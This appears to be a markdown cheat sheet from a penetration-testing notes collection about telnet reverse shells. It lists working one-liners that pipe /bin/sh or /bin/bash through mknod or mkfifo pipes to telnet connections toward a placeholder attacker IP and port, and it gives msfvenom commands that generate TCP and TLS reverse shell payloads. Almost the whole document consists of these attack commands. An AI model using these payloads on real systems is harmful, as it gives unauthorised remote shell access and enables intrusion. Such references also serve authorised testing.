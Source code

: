 # Telnet

## 01 - One-liners

### 1.1 - `mknod`

```
$ mknod backpipe p && telnet <attacker_IP> <attacker_PORT> 0<backpipe | /bin/bash 1>backpipe; rm -f backpipe
```

### 1.2 - `mkfifo`

```
$ mkfifo /tmp/f && telnet <attacker_IP> <attacker_PORT> 0</tmp/f | /bin/sh 1>/tmp/f; rm -f /tmp/f

$ TF=$(mktemp -u); mkfifo $TF && telnet <attacker_IP> <attacker_PORT> 0<$TF | /bin/sh 1>$TF; rm -f $TF
```

### 1.3 - Wacky

Open two listeners of `netcat`. The first port is for sending commands and the second is for the output.

```
$ telnet <attacker_IP> <attacker_PORT_1>  | /bin/sh | telnet <attacker_IP> <attacker_PORT_1>

$ telnet <attacker_IP> <attacker_PORT_1>  | /bin/bash | telnet <attacker_IP> <attacker_PORT_1>
```

## 02 - Generate via `msfvenom`

### 2.1 - TCP Method

```
$ msfvenom -p cmd/unix/reverse shellpath=/bin/sh [telnetpath=/path/to/telnet] lhost=<IP> lport=<PORT>
```

### 2.2 - TLS Method

You can include TLS certificate to encrypt communication.

```
$ msfvenom -p cmd/unix/reverse_ssl_double_telnet shellpath=/bin/sh [telnetpath=/path/to/telnet] handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

Generate a reverse shell telnet via bash prompt.

```
$ msfvenom -p cmd/unix/reverse_bash_telnet_ssl handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

---
## References

### Github

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/shells/shells/linux.html)